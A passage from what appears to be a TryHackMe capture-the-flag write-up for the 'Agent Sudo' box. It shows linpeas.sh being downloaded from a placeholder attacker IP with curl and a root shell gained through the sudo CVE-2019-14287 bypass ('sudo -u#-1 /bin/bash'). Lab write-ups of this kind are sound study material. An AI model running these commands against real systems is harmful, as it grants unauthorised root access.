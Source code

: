 target:
```
james@agent-sudo:~$ curl <ATTACKER-IP>:8009/linpeas.sh -o linpeas.sh
```

After running, `sudo` seems vulnerable (https://nvd.nist.gov/vuln/detail/CVE-2019-14287).

![linpeas](images/sudo.png)

After some research, [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version) has a solution for us.

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/
.bash_history  .local/        root.txt       
.bashrc        .profile       .ssh/          
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

By,
DesKel a.k.a Agent R
root@agent-sudo:~# 
```

We successfully exploited sudo to promote to root. We gathered the root-flag and the answer for the bonus question is directly given in the end of root.txt: DesKel is the name of Agent R.




